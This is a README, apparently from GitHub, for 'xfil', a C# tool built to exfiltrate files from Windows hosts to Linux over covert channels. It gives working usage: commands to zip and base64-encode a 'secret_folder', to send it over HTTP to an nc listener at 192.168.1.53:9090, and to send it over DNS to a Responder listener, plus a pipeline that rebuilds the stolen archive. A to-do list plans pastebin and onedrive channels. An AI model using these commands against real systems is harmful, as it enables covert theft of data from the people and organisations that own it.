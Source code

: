 # xfil
Simple C# program to exfiltrate data/files through covert channels from windows to Linux.

## Compilation
* If you are targeting Windows 7 use *.NET Framework 3.5* when compiling.
* If you are targeting Windows 10 use *.NET Framework 4.0* when compiling. 
* To use the .exe you need the Ionic.zip.dll too, you can use BoxedAPP to merge them into a standalone .exe ( the release .exe is already merged with this .dll)
## Compiled binaries
Check the releases. Only version 0.1 available.


## Receive data
### Zip and Encode (REQUIRED)
```bash
# To exfiltrate files or folders you need to zip them and encode the zip in base64
xfil.exe /encode secret_folder secret.zip
```

### HTTP EXFIL
```bash
# Prepare listener to catch the base64
echo -e "HTTP/1.1 200 OK\r\n\r\n<h1>Host is live</h1>" | sudo nc -vl -p 9090
# Windows
xfil.exe /http http://192.168.1.53:9090/ secret.zip.b64
```

### DNS EXFIL
```bash
# Listener with responder
sudo ./responder.py  -i IP/iface
# Windows
xfil.exe /dns listener_ip  file.zip.b64
```

```bash
# After getting the xfil save all of the responder output and then parse it to the final exfiltrated file
cat /tmp/respon.dat | awk -F" " '{print $10}' | awk -F"." '{print $2}' | tr -d '\n' >> /tmp/respon2.dat
sed -e 's/SLASH/\//g' -e 's/PLUS/\+/g' -e 's/EQUAL/\=/g' /tmp/respon2.dat | base64 -d >> secret.zip
```

### TO-DO
* Add xfil through pastebin/onedrive
* Replace base64+hex  with something more efficient ~~(base32)~~ **[ DONE ]**
* Add DNS exfil **[ DONE ]**
* Add HTTP exfil **[ DONE ]**
* Add base64 encoding **[ DONE ]**
